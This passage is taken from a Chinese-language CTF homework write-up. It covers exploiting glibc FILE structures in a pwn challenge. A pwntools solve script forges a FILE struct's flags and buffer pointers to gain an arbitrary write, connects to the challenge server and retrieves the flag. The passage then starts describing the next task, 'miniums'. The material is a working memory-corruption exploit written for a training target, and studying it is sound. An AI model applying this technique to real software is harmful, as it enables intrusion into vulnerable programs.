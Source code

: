 而且會發現 owo 變數的位址每次執行時都不會改變\
因此只要透過 overflow 將 buf 位址後面的內容竄改為這樣子就行了\
撰寫解題腳本，用 flat 將 payload 包成以 8 bytes 對齊\
_IO_buf_end 的數值改為 ```_IO_buf_base + large value```，large value 我設成 0x20
```python
# FILE_AAW/solve.py
from pwn import *

context.arch = 'amd64'
#context.terminal = ['tmux', 'splitw', '-h']
#r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10009)

flags = 0
NO_READ = 0x4
EOF_SEEN = 0x10
MAGIC = 0xfbad0000
flags &= ~(NO_READ | EOF_SEEN)
flags |= MAGIC
# print(hex(flags)) # 0xfbad0000

payload = flat(
    0, 0,
    0, 0x1e1,
    flags, 0,
    0, 0,
    0, 0,
    0, 0x404070,
    0x404070+0x20, 0,
    0, 0,
    0, 0x7ffff7fbc5c0,
    0
)
#gdb.attach(r)
r.sendline(payload)
r.interactive()
```
執行解題腳本，程式會跑到 fread 的地方，輸入足夠長的字串
![](assets/2-10.png)
成功得出 flag 為 ```FLAG{sushi}```
不過這邊要注意的是，程式 fread 時，要用 interactive\
不要用 sendline，否則跑起來有可能會噴 EOF 錯誤\
## [HW] miniums
這題跟 pwn 第二週的 HW 類似，不過題目把 data 的部分改為 ```FILE *```
以及 edit_data 時 data 大小限制在 0x200 以內\
因此無法像第二週 HW 一樣 free 掉會被放入 unsorted bin 裡 (chunk size 小於 0x410)\
不過這邊在 allocate memory 時，放在 heap 裡的會是 FILE 的結構\
在某些情況下被 free 掉還是會被放到 unsorted bin 或 large bin 等等
